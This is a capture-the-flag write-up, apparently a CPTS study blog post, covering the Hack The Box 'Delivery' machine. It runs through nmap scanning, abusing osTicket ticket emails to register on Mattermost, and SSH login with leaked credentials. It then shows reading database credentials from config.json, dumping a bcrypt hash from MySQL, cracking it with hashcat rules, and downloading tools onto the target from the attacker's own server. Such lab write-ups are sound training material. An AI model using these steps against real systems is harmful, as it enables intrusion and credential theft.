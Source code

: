 ```yaml
---
layout: post
title: "Delivery"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.120.35

sudo nmap -sC -sV -oA nmap/delivery -p 22,80,8065 10.129.120.35

result:
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 05 Dec 2024 14:31:32 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: rfbmprf6jpbwpe5dnrw45wrtfe
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 05 Dec 2024 14:34:10 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 05 Dec 2024 14:34:12 GMT
|_    Content-Length: 0
```

Let’s visit the website. Upon clicking a link we get redirected to helpdesk.delivery.htb. Let’s add that to /etc/hosts. The site is an osticket app. It has known vulnerabilties.

![image.png]({{ site.baseurl }}/assets/delivery/image.png)

```bash
bobby, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 5093027.

If you want to add more information to your ticket, just email 5093027@delivery.htb.

Thanks,

Support Team
```

This ticket shows that any new requests regarding this ticket will get an email automatically sent here. Let’s use this internal email to create a new account in Mattermost.

There is also another link on the home web page in contact us with domain delivery.htb, let’s add that in /etc/hosts as well.

Visiting the site lands us in a login page where we can create a new user. Let’s use the ticket email and create a new user. Once the registration is complete, we will get sent a confirmation email. We can view the email in the osticket app, simply refresh the ticket page and visit the link:

![image.png]({{ site.baseurl }}/assets/delivery/image%201.png)

Now the registration process is complete and we can sign in with the internal email to mattermost.

![image.png]({{ site.baseurl }}/assets/delivery/image%202.png)

Luckily we also got our first credential:

![image.png]({{ site.baseurl }}/assets/delivery/image%203.png)

We also got a hint that the company uses variation of PleaseSubscribe! password everywhere.

Let’s try to login as maildeliverer to ssh. We are logged in. Let’s use [LimEnum.sh](http://LimEnum.sh) to enumerate the machine.

```bash
scp /home/billy/tools/LinEnum.sh maildeliverer@10.129.120.35:~/

On Target host:
chmod +x LinEnum.sh
./LinEnum.sh

result:

[-] Network and IP info:
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.120.35  netmask 255.255.0.0  broadcast 10.129.255.255
        
[-] ARP history:
10.129.0.1 dev ens192 lladdr 00:50:56:b9:f8:ec REACHABLE

[-] Default route:
default via 10.129.0.1 dev ens192

[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::8065                 :::*                    LISTEN      -   

********MYSQL************   
[-] MYSQL version:                                                                                                                                        
mysql  Ver 15.1 Distrib 10.3.27-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

[-] SUID files:                                                                                                                                           
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                               
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

mattermost:x:998:998::/home/mattermost:/bin/sh

*A mattermost user*
```

Let’s try and login to mysql

```bash
mysql -h localhost -u maildeliverer -p
```

Does not work. Let’s try bruteforcing root login with hashcat transformation rules. First create a text file that contains the string ‘PleaseSubscribe!’. Then:

```bash
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

Next we install sucrack and upload it to the target server:

```bash
python3 -m http.server 1234

on target:
cd /dev/shm   #this dir because it's not persistent, deletes files later
wget http://10.10.14.132:1234/sucrack
wget http://10.10.14.132:1234/pwlist
```

Now to execute sucrack

```bash
./sucrack -a -w 20 -s 10 -u root -r pwlist
```

sucrack don’t seem to work on the target.

Let’s try another way. Looking in the config of mattermost, which apps are commonly found in /opt dir:

```bash
cat /opt/mattermost/config/config.json

result:
    "SqlSettings": {                                                                                                                   15:55:32 [384/1838]
        "DriverName": "mysql",                                                                                                                            
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",      
        "DataSourceReplicas": [],                                                                                                                         
        "DataSourceSearchReplicas": [],                                                                                                                   
        "MaxIdleConns": 20,                                                                                                                               
        "ConnMaxLifetimeMilliseconds": 3600000,                                                                                                           
        "MaxOpenConns": 300,                                                                                                                              
        "Trace": false,                                                                                                                                   
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",                                                                                           
        "QueryTimeout": 30,                                                                                                                               
        "DisableDatabaseSearch": false 
```

We acquire credentials for user mmuser.

```bash
mysql -u mmuser -p  #Crack_The_MM_Admin_PW

SHOW DATABASES;
USE mattermost;

show tables;
describe users;
select ID,Username,Password from Users;

result:
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

![image.png]({{ site.baseurl }}/assets/delivery/image%204.png)

Now let’s try and crack it with hashcat with our pwlist rules.

```bash
hashcat -m 3200 root_hash.txt pwlist
```

We got the password.

We could’ve also done:

```bash
hashcat -m 3200 root_hash.txt pw -r /usr/share/hashcat/rules/best64.rule
```

- osticket
- LinEnum
- Looking through config in /opt
- mysql
- hashcat with rules